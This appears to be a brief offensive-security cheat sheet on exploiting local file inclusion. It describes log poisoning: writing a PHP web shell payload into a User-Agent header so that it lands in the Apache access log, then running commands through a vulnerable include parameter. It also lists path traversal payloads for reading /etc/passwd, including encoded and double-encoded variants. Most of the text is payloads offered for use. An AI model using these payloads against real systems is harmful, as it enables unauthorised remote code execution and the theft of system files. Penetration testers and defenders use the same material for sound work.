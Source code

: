 # LFI

If you locate an LFI, first try to get RCE.

### 1) Locate a writable log file

    /var/log/apache2/access.log

### 2) Inject a payload

Inject a simple web shell payload into a request header (e.g., User-Agent or Referer) that the web server will log.

Payload:

    <?php echo system($_GET[‘cmd’]); ?>

### 3) Execute via LFI

    http://example.com/vulnerable.php?page=/path/to/log/access.log&cmd=whoami

## Path Traversal manual payloads

Simple traversal: start with 

    ../../../../etc/passwd 

Try variants like : 

    ..//..//..//etc/passwd 
    
or 

    ..\/..\/..\/etc/passwd.

Dot+slash permutations: 

    ..././../ 
    
or 

    ..%2f..%2f..%2fetc/passwd (URL encoded).

Try Double-encoding: 

URL-encode twice if the app decodes input more than once (example: %252e%252e%252f = %2e%2e%2f).
